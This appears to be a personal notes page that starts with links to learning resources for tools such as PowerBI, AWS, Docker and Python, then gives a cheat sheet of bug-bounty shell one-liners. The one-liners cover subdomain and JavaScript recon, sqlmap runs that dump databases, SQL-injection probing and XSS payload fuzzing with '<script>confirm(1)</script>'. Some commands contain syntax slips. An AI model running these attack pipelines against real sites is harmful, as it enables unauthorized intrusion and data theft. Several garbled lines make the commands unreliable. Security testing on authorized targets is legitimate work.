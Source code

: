 15. 101 Reverse Engineering for the Public https://lnkd.in/g9NQXt5p




PowerBI → https://lnkd.in/e2ATVnCf
Excel → https://lnkd.in/eJdKcj6B
SQL → http://sqlbolt.com
CSS → http://css-tricks.com
AWS → https://lnkd.in/esBzj3ez
Azure → http://learn.microsoft.com
GCP → https://lnkd.in/eHSc9ve6
DevOps → https://lnkd.in/ebF6mmKN
Docker → https://lnkd.in/eK5jD7xe
Security → http://tryhackme.com
Python → http://learnpython.org
JavaScript → https://lnkd.in/eSJS9vgs
Git → https://lnkd.in/eqY-KzSW

agile extesion  for devops 
kasm for container 


 https://lnkd.in/gS5W3Wng 




 
🚨 Extract JS from a list of Subdomains
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done

🚨 Extract End Points from JS Files
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u

🚨 Extract URLs from Source Code
curl "https://target.com/" | grep -oP '(https*://|www\.)[^ ]*'

🚨 Testing for SQLi
sqlmap -u target.com/registration --dbs --forms --crawl=2

sqlmap -u target.com/registration --dbs --batch --dump --dbms=[] 

cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | httpx -silent -ms "You have an error in your SQL syntax"

cat urls.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mNeeds more Checking\e[0m" || echo -e "$url \e[1;31mDump it\e[0m" ;done

🚨 Testing for XSS 
cat sites.txt | subfinder -silent | httpx -silent | katana -silent | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping

subfinder -d vulnweb.com -all -silent | httpx -silent | katana -silent | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping

waybackurls HOST | tee HOST.txt | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \\033[0;31mVulnerable\\n" || echo "$host \\033[0;32mNot Vulnerable\\n";done
